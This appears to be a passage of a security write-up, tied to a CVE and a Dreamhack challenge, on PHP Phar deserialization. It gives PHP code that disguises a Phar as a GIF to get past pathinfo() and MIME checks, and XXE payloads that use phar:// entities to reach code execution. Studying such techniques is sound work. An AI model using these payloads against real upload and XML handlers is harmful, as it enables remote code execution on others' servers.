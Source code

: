 ```php
```

### Challenge

I also made a challenge related to this CVE and uploaded it in Dreamhack: [optimizer](https://dreamhack.io/wargame/challenges/2166)

## Phar image?

Phar deserialization in PHP does not depend on the file extension. That means even if we rename a .phar file, the vulnerability still works.

POC:

![image](https://hackmd.io/_uploads/SkB3bdOull.png)

However, you can't use a file without a proper extension (e.g., test, abc, or test,abc), because PHP functions like pathinfo() rely on file extensions to determine behavior.

`Rename the file with a valid image extension (like .gif, .png, etc.) while keeping the internal structure as a Phar. => Bypass the pathinfo() function`

We can also bypass mime_content_type() checks by adding fake image magic bytes (e.g., for a GIF file) in the Phar stub. Here's how:

```php
$obj = new User();
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("GIF89A<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($obj);
$phar->stopBuffering();
```

![image](https://hackmd.io/_uploads/HklUGddugl.png)

`Add appropriate magic bytes to fool MIME detection. => Bypass the mime_content_type() function`

## XXE to Phar deserialization

Imagine that you have XXE error but you can only read local files(LFI). However, with file upload and phar deserialization you can get ... RCE. These are some cases to exploit

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$data = simplexml_load_string($xml, "SimpleXMLElement", LIBXML_NOENT);
```

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$data = new SimpleXMLElement($xml, 2, 0);
```
